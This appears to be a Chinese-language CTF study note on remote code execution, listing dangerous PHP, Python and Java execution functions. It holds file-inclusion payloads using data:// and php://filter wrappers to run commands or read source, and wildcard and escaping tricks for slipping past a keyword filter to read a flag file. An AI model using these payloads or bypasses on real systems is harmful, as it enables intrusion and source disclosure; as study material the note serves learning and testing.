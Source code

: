 - [ ] ## RCE远程代码执行



RCE代码执行：引用脚本代码解析执行
RCE命令执行：脚本调用操作系统命令

### 漏洞函数：

#### 1.PHP

##### PHP代码执行函数

`eval()、assert()、preg_replace()、create_function()、array_map()、call_user_func()、call_user_func_array()、array_filter()、uasort()`等

##### PHP命令执行函数

`system()、exec()、shell_exec()、pcntl_exec()、popen()、proc_popen()、passthru()、等`

#### 2.Python

`eval exec subprocess os.system commands `



#### 3.Java

Java中没有类似php中eval函数这种直接可以将字符串转化为代码执行的函数，
但是有反射机制，并且有各种基于反射机制的表达式引擎，如: `OGNL、SpEL、MVEL`等.

#### 伪协议玩法

##### 配合文件包含伪协议（代码执行）

```
include $_GET[a]?>&a=data://text/plain,<?php system('ver');?>

include $_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=index.php
```



#### 关键字过滤

##### 过滤flag关键字

###### 通配符

```
flag=fl*
cat fl*
cat ?la*
```

###### 转义符号

```
ca\t /fl\ag
cat fl''ag
```
